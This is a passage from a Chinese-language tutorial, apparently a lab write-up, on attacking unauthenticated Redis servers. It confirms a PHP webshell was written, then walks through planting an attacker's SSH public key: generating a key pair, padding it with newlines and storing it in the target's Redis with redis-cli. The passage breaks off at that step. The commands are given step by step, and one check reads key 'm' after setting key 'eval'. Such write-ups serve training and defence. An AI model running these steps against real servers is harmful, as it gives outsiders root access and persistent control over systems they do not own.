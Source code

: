 ![image-20241030233057137](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241030233057137.png)
​ 5\.访问shell.php并执行命令


​    成功显示phpinfo，webshell写入成功！


![image-20241030233338696](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241030233338696.png)
#### 写ssh公钥


 **原理**？


  攻击机生成一对公私钥，通过redis未授权漏洞将公钥写入靶机的/root/.ssh中，再通过ssh的私钥远程控制靶机


 **存在的问题**：


1. ssh配置文件不允许root用户登录
2. ssh不一定允许互联网连接
3. redis所在的服务器可能根本没有ssh


 **利用**：


  1\.攻击机生成SSH公钥和私钥保存到 /root/.ssh/ 目录



```
ssh-keygen -q -t rsa -f /root/.ssh/id_rsa -N ''

```

![image-20241031134832726](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241031134832726.png)
* id\_rsa.pub为公钥（传到靶机），id\_rsa为私钥（攻击机保留）


![image-20241031135056850](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241031135056850.png)
  2\.进入/root/.ssh/目录，在 id\_rsa.pub 公钥内容前后加入换行符 **"\\n\\n"**，保存到 /tmp/foo.txt 文件



```
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /tmp/foo.txt

```

![image-20241031135227687](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241031135227687.png)
  3\.将 /tmp/foo.txt 文件的内容（公钥），保存在redis中（这个时候只保存在了内存中）



```
# 键eval对应的值为生成的公钥内容
cat /tmp/foo.txt | redis-cli -h 靶机ip -p 6379 -x set eval

# 连接redis
redis-cli -h 靶机ip -p 6379

# 看看成功写入了没
get m

```
